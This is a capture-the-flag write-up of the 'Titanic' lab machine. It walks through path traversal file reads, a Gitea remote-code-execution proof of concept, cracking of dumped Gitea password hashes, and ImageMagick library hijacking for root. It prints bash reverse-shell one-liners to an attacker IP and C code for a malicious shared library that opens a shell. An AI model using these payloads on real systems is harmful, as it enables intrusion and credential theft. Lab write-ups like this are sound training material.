Start: 2026-09-25 11:35

IP:
```
10.129.231.221
```
---

ports

```
sudo nmap -p- -n -Pn -vv --min-rate=5000 10.129.231.221 -oG network/nmap_ports.txt
```



SSH, HTTP

service

```
nmap -p22,80 -Pn -n -sCV --min-rate=5000 10.129.231.221 -oN network/nmap_service.txt
```



SSH: OpenSSH 8.9p1
OS: Ubuntu
Web server: Apache 2.4.52
Domain: titanic.htb

Add IP - Domain to /etc/hosts



HTTP - Web

Browsing: http://titanic.htb/


Clicking `Book Now` button



Form to book



After filling the form and submitting the data is writen to a JSON file and downloaded.

Opening BurpSuite

The ticket is created at POST `/book` and then redirect to `/download?ticket=<x>.json` to download it.


Partameter loading locally stored files, printing contents on response. Trying file inclusion. 
With path traversal can read `/etc/passwd`

```
../../../../../etc/passwd
```


See `www-data` and `developer` (`developer:x:1000:1000:developer:/home/developer:/bin/bash`)

Reading apache config files find nothing interesting

```
../../../../../etc/apache2/sites-enabled/000-default.conf
```

Asumed the account running the web soliciting this files is have low privileges and imagine it not having permission to read other users directories but have permission to read the user flag under `/home/developer`.

```
../../../../../home/developer/user.txt
```



user.txt: `ee27cce3891448c2d93202ab75bd22c2`

Reading /etc/hosts

```
../../../../../etc/hosts
```


Subdomain: `dev.titanic.htb`

Adding to my `/etc/hosts`



Browsing: http://dev.titanic.htb/


Gitea

See version at the button. Ive seen Gitea has a bunch of known CVEs


Gitea 1.22.1

See https://github.com/0xBlackash/CVE-2026-60004 affects this version. It seems to enable RCE by creating a repo and writing a malicious "hook".

Will try this PoC: https://github.com/imbas007/CVE-2026-60004-POC

Download

```
wget https://raw.githubusercontent.com/imbas007/CVE-2026-60004-POC/refs/heads/main/cve-2026-60004-poc.py
```

+x

Run

```
python3 cve-2026-60004-poc.py --url http://dev.titanic.htb --cmd "id"
```


1. Register user
2. Create repo
3. Exploit diffpatch with malicious hook
4. Retrieve command output

RCE as `git`

Reverse shell

```
bash -c 'bash -i &> /dev/tcp/10.10.14.204/9001 0>&1'
```

Setting listener

```
nc -nlvp 9001
```


Shell as `git`. The connection comes from the target system IP but then ifconfig does not list that IP. 
Wonder if this is not the target system itself. 
*(Post-testing edit: Its the target system but delimited inside a Docker container. It lists `172.18.0.2`, IP within Docker container ranges `172.16.0.0` – `172.31.255.255`)*

Moving arround the system, inside `/app` see `gitea` file but lisiting prints unreadable content.

Its a binary

```
./gitea
```

Executing it see interesting files


```
cat /data/gitea/conf/app.ini
```


database type: SQLite. 
port 3306 is default for MySQL
Path: `/data/gitea/gitea.db`. 
user: root... 
sqlite stores data plainly in the file

```
cat /data/gitea/gitea.db
```


See commits from `developer` but cant read with ease, and file is large

Querying with sqlite3. Assuming table name is common user / users.

```
sqlite3 /data/gitea/gitea.db
```

```
select * from user;
```


Hashes for `administrator` and `developer`. The rest rows are attacker entries.

administrator: `cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136`

developer: `e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56`

Algorithm: pbkdf2$50000$50

The output format seems to be hexadecimal

Searching: "gitea pbkdf2 hash to hashcat"

https://github.com/hashcat/hashcat/blob/master/tools/gitea2hashcat.py

Download 

```
wget https://raw.githubusercontent.com/hashcat/hashcat/refs/heads/master/tools/gitea2hashcat.py
```

```
./gitea2hashcat.py -h
```


Have an option to read hashes from database directly. 
Trying forming the hashes manually

Identify the salt from database `salt` column

```
select salt from user;
```


administrator salt: `2d149e5fbd1b20cf31db3e3c6a28fc9b`
developer salt: `8bf3e3452b78544f8bee9400d6936d34`

Now will try hash:salt and salt:hash orders

**`salt:hash`**
admin: `2d149e5fbd1b20cf31db3e3c6a28fc9b:cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136`

developer: `8bf3e3452b78544f8bee9400d6936d34:e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56`

```
./gitea2hashcat.py 2d149e5fbd1b20cf31db3e3c6a28fc9b:cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136 8bf3e3452b78544f8bee9400d6936d34:e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56
```


`sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=`
`sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=`

Adding both to a file `titanic.hashes`

Cracking with mode 10900 and rockyou.txt

```
hashcat -m 10900 titanic.hashes rockyou.txt
```


`25282528` from developer hash



Connected to gitea as developer

Trying system account. Connecting via SSH

```
ssh developer@titanic.htb
```



Connected as `developer` to the target system titanic with IP: 10.129.231.221

Surprised `25282528` is the password for system user as well. 
User flag already obtained.

---
Privilege escalation

Cant run anything with sudo

No interesting SUID binaries

Stuck

---
**Hint**: Vulnerable script in  `/opt/scripts`
https://www.youtube.com/watch?v=2tQ3VhdwVsU&t - 16:40
---

`identify_images.sh` under `/opt/scripts`


The script uses `/usr/bin/magick` to identify images

Identifying Magick version

```
/usr/bin/magick -version
```



ImageMagick 7.1.1-35

Searching



Following official ImageMagick documentation:
https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8

Paste the C code for the clone library and edit the command to reverse shell (`system()`).

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("bash -c 'bash -i &> /dev/tcp/10.10.14.204/9001 0>&1'");
    exit(0);
}
```

Compile it

```
gcc -x c -shared -fPIC -o ./libxcb.so.1 shell.c
```

Set listener

```
-nc -nlvp 9001
```

Move the created library `libxcb.so.1` to `/opt/app/static/assets/images/` (path where the vulnerable script is executed)

```
cp libxcb.so.1 /opt/app/static/assets/images/
```

Wait for the scheduled script to execute


Connected as root to the target system titanic with IP: 10.129.231.221

root.txt: `e6ffcb21536ac67a2751498aef9d7dff`

End: 2026-09-25 15:00

---
---
#### Post testing
##### Time frame
Start: 2026-09-25 11:35
End: 2026-09-25 15:00

Total time:  3h 25min

##### Techniques
- Path traversal + LFI in file download functionality -> Read `/etc/hosts` -> Subdomain
- Gitea 1.17 – 1.27.0 RCE vulnerability (CVE-2026-60004)
- Enumerating Gitea files (binary, config, database path)
- Dumping SQLite database
- Forming crackable hashes from raw Gitea database hashes and salts
- Exploiting script that runs vulnerable ImageMagick <=7.1.1-35
	- Finding scripts
	- Identifying scheduled/cron execution
	- Specific exploit for ImageMagick - Library hijacking

##### Sources
- CVE-2026-60004 automated PoC: https://github.com/imbas007/CVE-2026-60004-POC
- Convert Gitea hashes to hashcat format: https://github.com/hashcat/hashcat/blob/master/tools/gitea2hashcat.py
- **Hint**: Find scripts in filesystem. IppSec Video min 16:40: https://www.youtube.com/watch?v=2tQ3VhdwVsU&t
- ImageMagick exploit: https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8
